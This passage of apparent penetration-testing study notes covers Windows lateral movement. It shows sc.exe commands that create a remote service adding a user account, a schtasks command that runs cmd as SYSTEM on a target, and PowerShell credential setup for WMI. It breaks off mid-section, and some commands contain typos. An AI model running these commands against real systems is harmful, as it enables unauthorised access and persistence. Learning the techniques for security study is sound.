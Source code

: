 Windows services can be used to run arbitrary commands, if a Windows service is configured to run an application, it will execute the application and fail afterwards. A service can be created on a remote host with sc.exe - a standard tool built into Windows.

When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1. A connection attempt is made using DCE/RPC. The client connects to the Endpoint Mapper (EPM) on port 135 which catalogues available RPC endpoints and requests information on the SVCCTL program. The EPM then responds with the IP and port to connect to SVCCTL, normally a dynamic port in the range of 49152-65535.
2. If the latter connection fails, it will try to reach SVCCTL via named SMB names pipes, on port 445 or 139.

The following commands would create a service called spooky:

```
sc.exe \\TARGET create Spooky binPath= "net user contrxl Pass /add" start= auto
sc.exe \\TARGET start Spooky
```

Once the service starts, the net user command will execute, to stop and delete the service:

```
sc.exe \\TARGET stop Spooky
sc.exe \\TARGET delete Spooky
```

### Creating Scheduled Tasks Remotely

Scheduled Tasks can be created and run remotely using schtasks, to create a task named Spooky:

```
schtasks /s TARGET RU "SYSTEM" /create /tn "Spooky" /tr "cmd" /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s TARGET /run /TN "Spooky"

schtasks /s TARGET /TN "Spooky" /DELETE /F
```

### Connecting to WMI from PowerShell

Before connecting to WMI (Windows Management Instrumentation) with PowerShell, a PSCredential object must be created with our username and password. This can be created as follows:

```
$username = 'Administrator';
$password = 'Password';
$securePassword = Convert-ToSecureString $password -AsPlainTet -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

A WMI session can be created using one of the following protocols:

* DCOM: RPC over IP using port 135/TCP and ports 49152/65535/TCP
* Wsman: WinRM for connecting using ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

To establish a WMI session from PowerShell, we use the following:
